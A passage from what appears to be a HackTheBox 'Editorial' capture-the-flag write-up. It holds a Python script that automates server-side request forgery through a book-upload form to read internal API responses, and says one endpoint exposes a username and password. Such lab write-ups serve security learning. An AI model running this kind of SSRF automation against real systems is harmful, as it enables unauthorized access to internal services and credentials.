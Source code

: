```python
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

# Filler
-----------------------------184177687522391879021040867942--
'''

print("\nScript to automate SSRF for the Editorial challenge on HackTheBox\n")

# Gets the path to the file which the server issues after hitting it via SSRF
req1 = requests.post(url, headers=headers, data=data, proxies=proxies)
print("Path to file: " + req1.text + "\n")

# Appends the hostname
req2 = "http://editorial.htb/" + req1.text
print("Updated Path to: " + req2 + "\n")

# Sends the final request after modifications
print("[+] Contents of File \n")

finalreq = requests.get(req2, proxies=proxies)

# The files being returned contain JSON data. Below formats the data to make it easier to read.
json_data = finalreq.text
json_object = json.loads(json_data)
json_formatted_str = json.dumps(json_object, indent=2)
print(json_formatted_str)

#print(finalreq.text + "\n")

```

# Inspecting API via SSRF

Below is a screenshot of the endpoint which exposes a username and password. 

![ad503264e6d3b67b917f19048146d0d3.png](/assets/img/ad503264e6d3b67b917f19048146d0d3.png)
